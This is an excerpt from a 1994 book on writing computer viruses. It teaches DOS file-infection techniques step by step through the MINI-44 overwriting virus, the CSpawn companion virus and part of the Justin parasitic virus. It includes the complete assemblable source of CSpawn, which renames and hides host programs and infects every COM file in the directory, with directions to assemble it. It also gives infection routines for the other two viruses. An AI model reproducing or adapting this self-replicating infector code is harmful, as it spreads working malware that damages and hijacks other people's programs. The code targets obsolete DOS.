Each disk has two FAT's, which are identical copies of each other. The second is a backup, in case the first gets corrupted. On the other hand, a disk may have many directories. One directory, known as the root directory, is present on every disk, but the root may have multiple subdirectories, nested one inside of another to form a tree structure. These subdirectories can be created, used, and removed by the user at will. Thus, the tree structure can be as simple or as complex as the user has made it.
Fig. 3.4: The directory entry record.
Both the FAT and the root directory are located in a fixed area of the disk, reserved especially for them. Subdirectories are stored just like other files with the file attribute set to indicate that this file is a directory. The operating system then handles this subdirectory file in a completely different manner than other files to make it look like a directory, and not just another file. The subdirectory file simply consists of a sequence of 32 byte records describing the files in that directory. It may contain a 32 byte record with the attribute set to directory, which means that the file it refers to is a subdirectory of a subdirectory.
The DOS operating system normally controls all access to files and subdirectories. If one wants to read or write to a file, he does not write a program that locates the correct directory on the disk, reads the file descriptor records to find the right one, figure out where the file is and read it. Instead of doing all of this work, he simply gives DOS the directory and name of the file and asks it to open the file. DOS does all the grunt work. This saves a lot of time in writing and debugging programs. One simply does not have to deal with the intricate details of managing files and interfacing with the hardware.
DOS is told what to do using Interrupt Service Routines (ISR's). Interrupt 21H is the main DOS interrupt service routine that we will use. To call an ISR, one simply sets up the required CPU registers with whatever values the ISR needs to know what to do, and calls the interrupt. For example, the code
mov dx,OFFSET FNAME
xor al,al ;al=0
mov ah,3DH ;DOS function 3D
int 21H ;go do it
opens a file whose name is stored in the memory location FNAME in preparation for reading it into memory. This function tells DOS to locate the file and prepare it for reading. The int 21H instruction transfers control to DOS and lets it do its job. When DOS is finished opening the file, control returns to the statement immediately after the int 21H. The register ah contains the function number, which DOS uses to determine what you are asking it to do. The other registers must be set up differently, depending on what ah is, to convey more information to DOS about what it is supposed to do. In the above example, the ds:dx register pair is used to point to the memory location where the name of the file to open is stored. Setting the register al to zero tells DOS to open the file for reading only.
All of the various DOS functions, including how to set up all the registers, are detailed in many books on the subject. Ralf Brown and Jim Kyle's PC Interrupts is one of the better ones, so if you don't have that information readily available, I suggest you get a copy. Here we will only document the DOS functions we need, as we need them, in Appendix A. This will probably be enough to get by. However, if you are going to study viruses on your own, it is definitely worthwhile knowing about all of the various functions available, as well as the finer details of how they work and what to watch out for.
To search for other files to infect, the MINI-44 virus uses the DOS search functions. The people who wrote DOS knew that many programs (not just viruses) require the ability to look for files and operate on them if any of the required type are found. Thus, they incorporated a pair of searching functions into the Interrupt 21H handler, called Search First and Search Next. These are some of the more complicated DOS functions, so they require the user to do a fair amount of preparatory work before he calls them. The first step is to set up an ASCIIZ string in memory to specify the directory to search, and what files to search for. This is simply an array of bytes terminated by a null byte (0). DOS can search and report on either all the files in a directory or a subset of files which the user can specify by file attribute and by specifying a file name using the wildcard characters "?" and "*", which you should be familiar with from executing commands like copy *.* a: and dir a???_100.* from the command line in DOS. (If not, a basic book on DOS will explain this syntax.) For example, the ASCIIZ string
DB '\system\hyper.*',0
will set up the search function to search for all files with the name hyper, and any possible extent, in the subdirectory named system. DOS might find files like hyper.c, hyper.prn, hyper.exe, etc. If you don't specify a path in this string, but just a file name, e.g. "*.COM" then DOS will search the current directory.
After setting up this ASCIIZ string, one must set the registers ds and dx up to point to the segment and offset of this ASCIIZ string in memory. Register cl must be set to a file attribute mask which will tell DOS which file attributes to allow in the search, and which to exclude. The logic behind this attribute mask is somewhat complex, so you might want to study it in detail in Appendix A. Finally, to call the Search First function, one must set ah = 4E Hex.
If the search first function is successful, it returns with register al = 0, and it formats 43 bytes of data in the Disk Transfer Area, or DTA. This data provides the program doing the search with the name of the file which DOS just found, its attribute, its size and its date of creation. Some of the data reported in the DTA is also used by DOS for performing the Search Next function. If the search cannot find a matching file, DOS returns al non-zero, with no data in the DTA. Since the calling program knows the address of the DTA, it can go examine that area for the file information after DOS has stored it there. When any program starts up, the DTA is by default located at offset 80H in the Program Segment Prefix. A program can subsequently move the DTA anywhere it likes by asking DOS, as we will discuss later. For now, though, the default DTA will work for MINI-44 just fine.
To see how the search function works more clearly, let us consider an example. Suppose we want to find all the files in the currently logged directory with an extent "COM", including hidden and system files. The assembly language code to do the Search First would look like this (assuming ds is already set up correctly, as it is for a COM file):
SRCH_FIRST:
mov dx,OFFSET COMFILE ;set offset of asciiz string
mov ah,4EH ;search first function
int 21H ;call DOS
jc NOFILE ;go handle no file found condition
FOUND: ;come here if file found
COMFILEDB '*.COM',0
If this routine executed successfully, the DTA might look like this:
03 3F 3F 3F 3F 3F 3F 3F-3F 43 4F 4D 06 18 00 00 .????????COM.... 00 00 00 00 00 00 16 98-30 13 BC 62 00 00 43 4F ........0..b..CO 4D 4D 41 4E 44 2E 43 4F-4D 00 00 00 00 00 00 00 MMAND.COM.......
when the program reaches the label FOUND. In this case the search found the file COMMAND.COM.
In comparison with the Search First function, the Search Next is easy, because all of the data has already been set up by the Search First. Just set ah = 4F hex and call DOS interrupt 21H:
mov ah,4FH ;search next function
int 21H ;call DOS
jc NOFILE ;no, go handle no file found
FOUND2: ;else process the file
If another file is found the data in the DTA will be updated with the new file name, and ah will be set to zero on return. If no more matches are found, DOS will set ah to something besides zero on return. One mustbecareful here so thedataintheDTAisnotaltered between the call to Search First and later calls to Search Next, because the Search Next expects the data from the last search call to be there.
The MINI-44 virus puts the DOS Search First and Search Next functions together to find every COM program in a directory, using the simple logic of Figure 3.5.
The obvious result is that MINI-44 will infect every COM file in the directory you're in as soon as you execute it. Simple enough.
Fig 3.5: MINI-44 file search logic.
MINI-44's replication mechanism is even simpler than its search mechanism. To replicate, it simply opens the host program in write mode - just like an ordinary program would open a data file - and then it writes a copy of itself to that file, and closes it. Opening and closing are essential parts of writing a file in DOS. The act of opening a file is like getting permission from DOS to touch that file. When DOS returns the OK to your program, it is telling you that it does indeed have the resources to access that file, that the file exists in the form you expect, etc. Closing the file tells DOS to finish up work on the file and flush all data changes from DOS' memory buffers and put it on the disk.
To open the host program, MINI-44 uses DOS Interrupt 21H Function 3D Hex. The access rights in the al register are specified as 1 for write-only access (since the virus doesn't need to inspect the program it is infecting). The ds:dx pair must point to the file name, which has already been set up in the DTA by the search functions at FNAME = 9EH.
The code to open the file is thus given by:
mov ax,3D01H
mov dx,OFFSET FNAME
int 21H
If DOS is successful in opening the file, it will return a file handle in the ax register. This file handle is simply a 16-bit number that uniquely references the file just opened. Since all other DOS file manipulation calls require this file handle to be passed to them in the bx register, MINI-44 puts it there as soon as the file is opened with a mov bx,ax instruction.
Next, the virus writes a copy of itself into the host program file using Interrupt 21H, Function 40H. To do this, ds:dx must be set up to point to the data to be written to the file, which is the virus itself, located at ds:100H. (ds was already set up properly when the COM program was loaded by DOS.) At this point, the virus which is presently executing is treating itself just like any ordinary data to be written to a file - and there's no reason it can't do that. Next, to call function 40H, cx should be set up with the number of bytes to be written to the disk, in this case 44, dx should point to the data to be written (the virus), and bx should contain the file handle:
mov bx,ax ;put file handle in bx
mov dx,100H ;location to write from
mov cx,44 ;bytes to write
mov ah,40H
int 21H ;do it
Finally, to close the host file, MINI-44 simply uses DOS function 3EH, with the file handle in bx once again. Figure 3.6 depicts the end result of such an infection.
| Uninfected | Infected |
|---|---|
Original COM File Code Original COM File Code Original COM File Code Original COM File Code Original COM File Code Original COM File Code | Original COM File Code Original COM File Code Original COM File Code Original COM File Code Original COM File Code MINI-44 Virus Code |
Fig. 3.6: Uninfected and infected COM files.
MINI-44 is an incredibly simple virus as far as viruses go. If you're a novice at assembly language, it's probably just enough to cut your teeth on without being overwhelmed. If you're a veteran assembly language programmer who hasn't thought too much about viruses, you've just learned how ridiculously easy it is to write a virus.
Of course, MINI-44 isn't a very good virus. Since it destroys everything it touches, all you have to do is run one program to know you're infected. And the only thing to do once you're infected is to deleteall theinfectedfiles andreplace themfromabackup.Inshort, this isn't the kind of virus that stands a chance of escaping into the wild and showing up on computers where it doesn't belong without any help.
In general, overwriting viruses aren't very good at establishing a population in the wild because they are so easy to spot, and because they're blatantly destructive and disagreeable. The only way an overwriting virus has a chance at surviving on a computer for more than a short period of time is to employ a sophisticated search mechanism so that when you execute it, it jumps to some far off program in another directory where you can't find it. And if you can't find it, you can't clean it up. There are indeed overwriting viruses which use this strategy. Of course, even this strategy is of little use once your scanner can detect it, and if you're going to make the virus hard to scan, you may as well make a better virus while you're at it.
Companion viruses are the next step up in complexity after overwriting viruses. They are the simplest non-destructive type of virus in the IBM PC environment.
A companion virus is a program which fools the computer operator by renaming programs on a disk to non-standard names, and then replacing the standard program names with itself. Figure 4.1 shows how a companion virus infects a directory. In Figure 4.1a, you can see the directory with the uninfected host, HOST1.COM. In Figure 4.1b you see the directory after an infection. HOST1.COM has been renamed HOST1.CON, and the virus lives in the hidden file HOST1.COM. If you type "HOST1" at the DOS prompt, the virus executes first, and passes control to the host, HOST1.CON, when it is ready.
Let's look into the non-resident companion virus called CSpawn to see just how such a virus goes about its business...
There are two very important things a companion virus must accomplish: It must be capable of spreading or infecting other files, and it must be able to transfer control to a host program which is what the user thought he was executing when he typed a program name at the command prompt.
Directory of C:\VIRTEST Name Ext Size #Clu Date Time Attributes HOST1 COM 210 1 4/19/94 9:13p Normal,Archive HOST5 COM 1984 1 4/19/94 9:13p Normal,Archive HOST6 COM 501 1 4/19/94 9:13p Normal,Archive HOST7 COM 4306 1 4/19/94 9:13p Normal,Archive
Fig. 4.1a: Directory with uninfected HOST1.COM.
Directory of C:\VIRUTEST Virus
|
Name Ext Size #Clu Date Time Attributes |
HOST1 COM 180 1 10/31/94 9:54a Hidden,Archive <--+
HOST5 COM 180 1 10/31/94 9:54a Hidden,Archive <--+
HOST1 CON 210 1 4/19/94 9:13p Normal,Archive |
HOST6 COM 180 1 10/31/94 9:54a Hidden,Archive <--+
HOST7 COM 180 1 10/31/94 9:54a Hidden,Archive <--+
HOST5 CON 1984 1 4/19/94 9:13p Normal,Archive
HOST6 CON 501 1 4/19/94 9:13p Normal,Archive
HOST7 CON 4306 1 4/19/94 9:13p Normal,Archive
Fig. 4.1b: Directory with infected HOST1.COM.
Before CSpawn infects other programs, it executes the host program which it has attached itself to. This host program exists as a separate file on disk, and the copy of the CSpawn virus which has attached itself to this host has a copy of its (new) name stored in it.
Before executing the host, CSpawn must reduce the amount of memory it takes for itself. First the stack must be moved. In a COM program the stack is always initialized to be at the top of the code segment, which means the program takes up 64 kilobytes of memory, even if it's only a few hundred bytes long. For all intents and purposes, CSpawn only needs a few hundred bytes for stack, so it is safe to move it down to just above the end of the code. This is accomplished by changing sp,
mov sp,OFFSET FINISH + 100H
Next, CSpawn must tell DOS to release the unneeded memory with Interrupt 21H, Function 4AH, putting the number of paragraphs (16 byte blocks) of memory to keep in the bx register:
mov ah,4AH
mov bx,(OFFSET FINISH)/16 + 11H
int 21H
Once memory is released, the virus is free to execute the host using the DOS Interrupt 21H, Function 4BH EXEC command. To call this function properly, ds:dx must be set up to point to the name of the file to execute (stored in the virus in the variable SPAWN_NAME), and es:bx must point to a block of parameters to tell DOS where variables like the command line and the environment string are located. This parameter block is illustrated in Figure 4.2, along with detailed descriptions of what all the fields in it mean. Finally, the al register should be set to zero to tell DOS to load and execute the program. (Other values let DOS just load, but not execute, etc. See Appendix A.) The code to do all this is pretty simple:
mov dx,OFFSET SPAWN_NAME
mov bx,OFFSET PARAM_BLK
mov ax,4B00H
int 21H
There! DOS loads and executes the host without any further fuss, returning control to the virus when it's done. Of course, in the process of executing, the host will mash most of the registers, including the stack and segment registers, so the virus must clean things up a bit before it does anything else.
| Offset | Size(bytes) | Description |
|---|---|---|
| 0 | 2 | Segment of environment string. This is usually stored at offset 2CH in the PSP of the calling program, though the program calling EXEC can change it. |
| 2 | 4 | Pointer to command line (typically at offset 80H in the PSP of the calling program, PSP:80H) |
| 6 | 4 | Pointer to first default FCB (typically at offset 5CH in the PSP, PSP:5CH) |
| 10 | 4 | Pointer to second FCB (typically at offset 6CH in the PSP, PSP:6CH) |
| 14 | 4 | Initial ss:sp of loaded program (sub- function 1 and 3, returned by DOS) |
| 18 | 4 | Initial cs:ip of loaded program (sub- function 1 and 3, returned by DOS) |
Fig 4.2: EXEC function control block.
Our companion virus searches for files to infect in the same way MINI-44 does, using the DOS Search First and Search Next functions, Interrupt 21H, Functions 4EH and 4FH. CSpawn is designed to infect every COM program file it can find in the current directory as soon as it is executed. The search process itself follows the same logic as MINI-44 in Figure 3.5.
The search routine looks like this now:
mov dx,OFFSET COM_MASK
mov ah,4EH ;search first
xor cx,cx ;normal files only
SLOOP: int 21H ;do search
jc SDONE ;none found, exit
call INFECT_FILE ;one found, infect it
mov ah,4FH ;search next fctn
jmp SLOOP ;do it again
SDONE:
Notice that we have a call to a separate infection procedure now, since the infection process is more complex.
There is one further step which CSpawn must take to work properly. The DOS search functions use 43 bytes in the Disk Transfer Area (DTA) as discussed in the last chapter. Where is this DTA though?
When DOS starts a program, it sets the DTA up at ds:0080H, but the program can move it when it executes by using the DOS Interrupt 21H Function 1AH. Because the host program has already executed, DOS has moved the DTA to the host's data segment, and the host may have moved it somewhereelseontopofthat.Sobefore performing a search, CSpawn must restore the DTA. This is easily accomplished with Function 1AH, setting ds:dx to the address where you'd like the DTA to be. The default location ds:0080H will do just fine here:
mov ah,1AH
mov dx,80H
int 21H
Note that if CSpawn had done its searching and infecting before the host was executed, it would not be a wise idea to leave the DTA at offset 80H. That's because the command line parameters are stored in the same location, and the search would wipe those parameters out. For example, if you had a disk copying program called MCOPY, which was invoked with a command like this:
C:\>MCOPY A: B:
to indicate copying from A: to B:, the search would wipe out the "A: B:" and leave MCOPY clueless as to where to copy from and to. In such a situation, another area of memory would have to be reserved, and the DTA would have to be moved to that location from the default value. All one would have to do in this situation would be to define
DTA DB 43 dup (?)
and then set it up with
mov ah,1AH mov dx,OFFSET DTA int 21H
Note that it was perfectly all right for MINI-44 to use the default DTA because it destroyed the program it infected. As such it mattered but little that the parameters passed to the program were also destroyed. Not so for a virus that doesn't destroy the host.
Once CSpawn has found a file to infect, the process of infection is fairly simple. To infect a program, CSpawn
In this way, the next time the name of the host is typed on the command line, the virus will be executed instead.
To rename the host, the virus copies its name from the DTA, where the search routine put it, to a buffer called SPAWN_NAME. Then CSpawn changes the name in this buffer by changing the last letter to an "N". Next, CSpawn calls the DOS Rename function, Interrupt 21H, Function 56H. To use this function, ds:dx must point to the original name (in the DTA) and es:di must point to the new name (in SPAWN_NAME):
mov dx,9EH ;DTA + 1EH, original name
mov di,OFFSET SPAWN_NAME
mov ah,56H
int 21H
Finally, the virus creates a file with the original name of the host,
mov ah,3CH ;DOS file create function
mov cx,3 ;hidden, read only attributes
mov dx,9EH ;DTA + 1EH, original name
int 21H
and writes a copy of itself to this file
mov ah,40H ;DOS file write fctn
mov cx,FINISH-CSpawn ;size of virus
mov dx,100H ;location of virus
int 21H
Notice that when CSpawn creates the file, it sets the hidden attribute on the file. There are two reasons to do that. First, it makes disinfecting CSpawn harder. You won't see the viral files when you do a directory and you can't just delete them - you'll need a special utility like PC Tools or Norton Utilities. Secondly, it keeps CSpawn from infecting itself. Suppose CSpawn had infected the program FORMAT. Then there would be two files on disk, FORMAT.CON, the original, and FORMAT.COM, the virus. But the next time the virus executes, what is to prevent it from finding FORMAT.COM and at least trying to infect it again? If FORMAT.COM is hidden, the virus' own search mechanism will skip it since we did not ask it to search for hidden files. Thus, hiding the file prevents reinfection.
There are a wide variety of strategies possible in writing companion viruses, and most of them have been explored by virus writers in one form or another. The CSpawn virus works like a virus generated by the Virus Creation Lab (VCL), a popular underground program which uses a pull-down menu system to automatically generate viruses. CSpawn lacks only some of the unnecessary and confusing code generated by the VCL. Yet there are many other possibilities...
Some of the first companion viruses worked on the principle that when a user enters a program name at the command prompt, DOS always searches for a COM program first and then an EXE. Thus, a companion virus can search for EXE program files and simply create a COM file with the same name, only hidden, in the same directory. Then, whenever a user types a name, say FDISK, the FDISK.COM virus program will be run by DOS. It will replicate and execute the host FDISK.EXE. This strategy makes for an even simpler virus than CSpawn.
Yet there need not be any relationship between the name of the virus executable and the host it executes. In fact, DOS Interrupt 21H, Function 5AH will create a file with a completely random name. The host can be renamed to that, hidden, and the virus can assume the host's original name. Since the DOS File Rename function can actually change the directory of the host while renaming it, the virus could also collect up all the hosts in one directory, say \WINDOWS\TMP, where a lot of random file names would be expected. (And pity the poor user who decides to delete all those "temporary" files.)
Neither must one use the DOS EXEC function to load a file. One could, for example, use DOS Function 26H to create a program segment, and then load the program with a file read.
Finally, one should note that a companion virus written as a COM file can easily attack EXE files too. If the virus is written as a COM file, then even if it creates a copy of itself named EXE, DOS will interpret that EXE as a COM file and execute it properly. The virus itself can EXEC an EXE host file just as easily as a COM file because the DOS EXEC function does all the dirty work of interpreting the different formats.
The major problem a companion virus that infects EXEs will run into is Windows executables, which it must stay away from. It will cause Windows all kinds of problems if it does not. We will discuss Windows executables more thoroughly in a few chapters when we begin looking at EXE files in depth.
The following virus can be assembled into a COM file by MASM, TASM or A86 and executed directly.
;The CSpawn virus is a simple companion virus to illustrate how a companion
;virus works.
;
;(C) 1994 American Eagle Publications, Inc. All Rights Reserved!
.model tiny
.code
org 0100h
CSpawn:
mov sp, OFFSET FINISH + 100H ;Change top of stack
mov ah, 4AH ;DOS resize memory fctn
mov bx, sp
mov cl, 4
shr bx, cl
inc bx ;BX=# of para to keep
int 21H
mov bx, 2CH ;set up EXEC param block
mov ax, [bx]
mov WORD PTR [PARAM_BLK], ax ;environment segment
mov ax, cs
mov WORD PTR [PARAM_BLK+4], ax ;@ of parameter string
mov WORD PTR [PARAM_BLK+8], ax ;@ of FCB1
mov WORD PTR [PARAM_BLK+12], ax ;@ of FCB2
mov dx, OFFSET REAL_NAME ;prep to EXEC
mov bx,OFFSET PARAM_BLK
mov ax,4B00H
int 21H ;execute host
cli
mov bx,ax ;save return code here
mov ax,cs ;AX holds code segment
mov ss,ax ;restore stack first
mov sp,(FINISH - CSpawn) + 200H
sti
push bx
mov ds,ax ;Restore data segment
mov es,ax ;Restore extra segment
mov ah,1AH ;DOS set DTA function
mov dx,80H ;put DTA at offset 80H
int 21H
call FIND_FILES ;Find and infect files
pop ax ;AL holds return value
mov ah,4CH ;DOS terminate function
int 21H ;bye-bye
;The following routine searches for COM files and infects them
FIND_FILES:
mov dx,OFFSET COM_MASK ;search for COM files
mov ah,4EH ;DOS find first file function
xor cx,cx ;CX holds all file attributes
FIND_LOOP: int 21H
jc FIND_DONE ;Exit if no files found
call INFECT_FILE ;Infect the file!
mov ah,4FH ;DOS find next file function
jmp FIND_LOOP ;Try finding another file
FIND_DONE: ret ;Return to caller
COM_MASK db '*.COM',0 ;COM file search mask
;This routine infects the file specified in the DTA.
INFECT_FILE:
mov si,9EH ;DTA + 1EH
mov di,OFFSET REAL_NAME ;DI points to new name
INF_LOOP: lodsb ;Load a character
stosb ;and save it in buffer
or al,al ;Is it a NULL?
jnz INF_LOOP ;If so then leave the loop
mov WORD PTR [di-2],'N' ;change name to CON & add 0
mov dx,9EH ;DTA + 1EH
mov di,OFFSET REAL_NAME
mov ah,56H ;rename original file
int 21H
jc INF_EXIT ;if can't rename, already done
mov ah,3CH ;DOS create file function
mov cx,2 ;set hidden attribute
int 21H
mov bx,ax ;BX holds file handle
mov ah,40H ;DOS write to file function
mov cx,FINISH - CSpawn ;CX holds virus length
mov dx,OFFSET CSpawn ;DX points to CSpawn of virus
int 21H
mov ah,3EH ;DOS close file function
int 21H
INF_EXIT: ret
REAL_NAME db 13 dup (?) ;Name of host to execute
;DOS EXEC function parameter block
PARAM_BLK DW ? ;environment segment
DD 80H ;@ of command line
DD 5CH ;@ of first FCB
DD 6CH ;@ of second FCB
FINISH:
end CSpawn
The next five exercises will lead the reader through the necessary steps to create a beneficial companion virus which secures all the programs in a directory with a password without which they cannot be executed. While this virus doesn't provide world-class security, it will keep the average user from nosing around where he doesn't belong.
Now we are ready to discuss COM infecting viruses that actually attach themselves to an existing COM file in a non-destructive manner. This type of virus, known as a parasitic virus, has the advantage that it does not destroy the program it attacks, and it does not leave tell-tale signs like all kinds of new hidden files and renamed files. Instead, it simply inserts itself into the existing program file of its chosen host. The only thing you'll notice when a program gets infected is that the host file has grown a bit, and it has a new date stamp.
There are two different methods of writing a parasitic COM infector. One approach is to put the virus at the beginning of the host, and the other is to put the virus at the end of the host. Each strategy has its advantages and its difficulties, so we'll discuss both. This chapter will detail the first approach: a virus that places itself at the beginning of the host.
At the same time, we're going to begin a discussion of what is necessary to write a virus that doesn't cause problems. We've already seen that some viruses - like overwriting viruses - are inherently destructive. For these viruses, the very act of infecting a program ruins it. Parasitic viruses need not be destructive, but they can be if the programmer isn't careful. Unlike companion viruses, which rely heavily on DOS to take care of the details of executing the host, a parasitic virus has to be careful not to mistreat the host program if it's going to work properly when the virus gives it control.
Often virus authors aren't careful about the details which must be covered if a virus is to avoid causing inadvertent damage. Thus, they write "benign" viruses which may not be so benign. Such programming mistakes are often a good way to notice a virus before it wants to be noticed, simply because the problems are a clue to viral activity - if you're aware of what the problems are.
This chapter's virus is a parasitic virus which inserts itself at the beginning of a COM program file. Its name is Justin. Like CSpawn, Justin infects only COM files in the current directory. As such, it is fairly safe to experiment with.
Figure 5.1 depicts the action of Justin on a disk file. Essentially, the virus just moves the host program up and puts itself in front of it. This is accomplished fairly easily with DOS, using the file read and write functions. Before the virus does that, however, it must perform a few checks to make sure it won't louse things up when infecting a program.
Fig. 5.1: Action of JUSTIN on a COM file.
First and most important, Justin must have enough memory to execute properly. It will read the entire host into memory and then write it back out to the same file at a different offset. In general, a COM program can be almost 64 kilobytes long (not quite), so a buffer of 64K must be available in the computer's memory. If it is not, the virus cannot operate, and it should simply go to sleep. Justin contains a routine CHECK_MEM which makes this determination. If enough memory is available, CHECK_MEM returns with the carry flag reset and es set up with the segment of a 64K block of memory it can use. If there is not enough memory, CHECK_MEM returns with carry set. The main control routine of the virus looks like this:
JUSTIN:
call CHECK_MEM ;enough memory?
jc GOTO_HOST_LOW ;nope, pass ctrl to host
call JUMP_HIGH ;jump to high memory segment
call FIND_FILE ;else find a host
jc GOTO_HOST_HIGH ;none, pass ctrl to host
call INFECT_FILE ;yes, infect it
GOTO_HOST_HIGH: ;jmp to host from new mem blk
GOTO_HOST_LOW: ;jmp to host from orig mem blk
so you can see that if there isn't enough memory for the virus to operate, it does nothing but let the host execute normally.
Now, typically, when a COM program is loaded it is given all available system memory. Thus, any memory above the PSP that belongs to DOS will be available for the virus to use. The virus must,however, keep itshands offtheentire64kilobyteblockwhich starts with the PSP. The virus itself lives at offset 100H in this segment and is followed directly by the host it was originally attached to. Then at the very end of this segment is the COM program'sstack.Ifthe virusmesses withany of thesethingsitcould cause problems. So what the virus wants to do is use the 64 kilobyte block just above where it lives - if that block is available to use.
There are a number of things which could cause this block of memory to be unavailable. For example, there may not be much memory in the computer. If it only has 256 kilobytes installed, that memory just may not exist. Likewise, most of the memory may be in use. For example, if you're using a communications programthat allows you to shell to DOS during a data transfer, there may not be a whole lot of DOS memory available, even if you do have 640K of conventional memory.
One could simply physically check memory to avoid these problems - write a byte to the desired location and see if it's there when you read it back. This, however, neglects a more subtle problem. There could be something running just below the 640K limit. For example, the beneficial virus KOH (discussed later in this book) operates at the very top of conventional memory. Overwrite it and your computer will grind to a halt. For this reason, there is only one sensible way to check whether enough memory is available: use DOS' own memory management functions.
One can modify the amount of memory allocated to a program with DOS Interrupt 21H, Function 4AH. One simply puts the desired number of paragraphs of memory (16 byte blocks) in bx and calls this function. If unsuccessful, DOS will set the carry flag and put the number of blocks actually available in bx. Since we need 2*64K bytes of memory, we simply attempt to allocate memory:
mov ah,4AH
mov bx,2000H ;2000H*16 = 2*64K
int 21H
If this function returns successfully, enough memory is available. If not, there's not enough memory. Of course, if this function is successful, we've deallocated memory, and the host program may not like that. It may be expecting to have free reign over all the memory available. Thus, Justin must re-allocate all available memory if it's to be a nice virus. But how much is available? We still don't know. To find out, we just attempt to allocate too much - say a full megabyte (bx=0FFFFH). That's guaranteed to fail, but it will also return the amount available in bx. Then we just call Function 4A again with the proper value. So the CHECK_MEM routine looks like this:
CHECK_MEM:
mov ah,4AH ;modify allocated memory
mov bx,2000H ;we want 2*64K
int 21H ;set c if not enough memory
pushf
mov ah,4AH ;re-allocate all available mem
mov bx,0FFFFH
int 21H
mov ah,4AH ;bx now has actual amt avail
int 21H
popf
ret ;and return to caller
Now, if enough memory is available, Justin springs into action. The first thing it does is jump to the high block of memory 64K above where it starts executing. This is accomplished by the routine JUMP_HIGH. First, JUMP_HIGH puts a copy of the virus in this new segment. To do that, it uses the instruction rep movsb, which moves cx bytes from ds:si to es:di. In memory, the virus starts at ds:100H right now, and its length is given by OFFSET HOST - 100H, where OFFSET HOST is the address where the host program starts, a byte after the end of the virus. Thus, moving the virus up is accomplished by
mov si,100H
mov di,OFFSET HOST
mov cx,OFFSET HOST - 100H
rep movsb
Next, Justin moves the Disk Transfer Area up to this new segment at offset 80H using DOS Function 1AH. That preserves the command line, as discussed in the last chapter. Finally, JUMP_HIGH passes control to the copy of Justin in the high segment. (See Figure 5.2) To do this, it gets the offset of the return address for JUMP_HIGH off the stack. When JUMP_HIGH was called by the main control routine, the call instruction put the address right after it on the stack (in this case, the value 108H).
When a normal near return is executed, this address is popped off the stack into the instruction pointer register ip which tells what instruction to execute next. To get to the high segment, we capture the return offset by popping it off the stack, then we put the high segment on the stack, and then put the offset back. Finally, JUMP_HIGH returns using a far return instruction, retf. That loads cs:ip with the 4-byte address on the stack, transferring control to a new segment - in our case the high segment where the copy of Justin is sitting, waiting to execute.
Fig. 5.2: Jumping to the high segment
Once operating in the high segment, Justin can start the infection process. The file search routine is very similar to the routine used in the viruses we've already discussed. It uses the DOS Search First/Search Next functions to locate files with an extent "COM". This search routine differs in that it calls another routine, FILE_OK, internally (see Figure 5.3). FILE_OK is designed to avoid problems endemic to parasitic viruses. The biggest problem is how to avoid multiple infection.
As you will recall, the MINI-44 virus was very rude and overwrote every COM file it found. Multiple infections didn't matter because a file overwritten once by the virus looks exactly the same as one overwritten ten times. The SPAWNR virus avoided multiple infections by hiding the companion COM file. A parasitic virus has a more difficult job, though. If it infects a COM file again and again, the file will grow larger and larger. If it gets too big, it will no longer work. Yet how does the parasitic virus know it has already infected a file?
Fig. 5.3: JUSTINs file search and infect.
FILE_OK takes care of the details of determining whether a potential host should be infected or not. First, FILE_OK opens the file passed to it by FIND_FILE and determines its length. If the file is too big, adding the virus to it could make it crash, so Justin avoids such big files. But how big is too big? Too big is when Justin can't get into the high memory segment without ploughing the stack into the top of the host. Although Justin doesn't use too much stack, one must remember that hardware interrupts can use the stack at any time. Thus, about 100H bytes for a stack will be needed. So, we want
(Size of Justin) + (Size of Host) + (Size of PSP) < 0FF00H
to be safe. To determine this, FILE_OK opens the potential host using DOS function 3DH, attempting to open in read/write mode. We already met this function with MINI-44. Now we just use it in read/write mode:
mov dx,9EH ;address of file name in DTA
mov ax,3D02H ;open read/write mode
int 21H
If this open fails, then the file is probably read only, and Justin avoids it.
Next FILE_OK must find out how big the file is. One can pull this directly from the DTA, at offset 1AH. However, there is another way to find out how big a file is, even when you're not using the DOS search functions, and that is what Justin uses here. This method introduces an important concept: the file pointer.
FILE_OK moves the file pointer to the end of the file to find out how big it is. The file pointer is a four byte integer stored internally by DOS which keeps track of where DOS will read and write from in the file. This file pointer starts out pointing to the first byte in a newly-opened file, and it is automatically advanced by DOS as the file is read from or written to.
DOS Function 42H is used to move the file pointer to any desired value. In calling function 42H, the register bx must be set up with the file handle number, and cx:dx must contain a 32 bit long integer telling where to move the file pointer to. There are three different ways this function can be used, as specified by the contents of the al register. If al=0, the file pointer is set relative to the beginning of the file. If al=1, it is incremented relative to the current location, and if al=2, cx:dx is used as the offset from the end of the file. When Function 42H returns, it also reports the current value of the file pointer (relative to the beginning of the file) in the dx:ax register pair. So to find the size of a file, one sets the file pointer to the end of the file
mov ax,4202H ;seek relative to end
xor cx,cx ;cx:dx=0
xor dx,dx ;the offset from the end
int 21H
and the value returned in dx:ax will be the file size! FILE_OK must check this number to make sure it's not too big. If dx=0, the file is more than 64K long, and therefore too big:
or dx,dx ;is dx = 0?
jnz FOK_EXIT_C ;no, exit with c set
Likewise, if we add OFFSET HOST to ax, and it's greater than 0FF00H, the file is too big:
add ax,OFFSET HOST ;add size of virus + PSP
cmp ax,0FF00H ;is it too big?
ja FOK_EXIT_C ;yes, exit with c set
If FILE_OK gets this far, the new host isn't too big, so the next step is to read the entire file into memory to examine its contents. It is loaded right after the virus in the high segment. That way, if the file is good to infect, the virus will have just created an image of the infected program in memory (See Fig. 5.4) Actually infecting it will be very simple. All Justin will have to do is write that image back to disk!
Fig. 5.4: JUSTIN creates an image of infected host.
To read thefileintomemory,wemust first movethefilepointer back to the beginning of the file with DOS Function 42H, Subfunction 0,
mov ax,4200H ;move file ptr
xor cx,cx ;0:0 relative from start
xor dx,dx
int 21H
Next, DOS Function 3FH reads the file into memory. To read a file, one must set bx equal to the file handle number and cxto the number of bytes to read from the file. Also ds:dx must be set to the location in memory where the data read from the file should be stored (the label HOST).
pop cx ;cx contains host size
push cx ;save it for later use
mov ah,3FH ;prepare to read file
mov dx,OFFSET HOST ;into host location
int 21H ;do it
Before infectingthe new host,Justinperformstwomorechecks in the FILE_OK routine. The first is simply to see if the potential host has already been infected. To do that, FILE_OK simply compares the first 20 bytes of the host with its own first 20 bytes. If they are the same, the file is already infected. This check is as simple as
mov si,100H
mov di,OFFSET HOST
mov cx,10
repz cmpsw
If the z flag is set at the end of executing this, then the virus is already there.
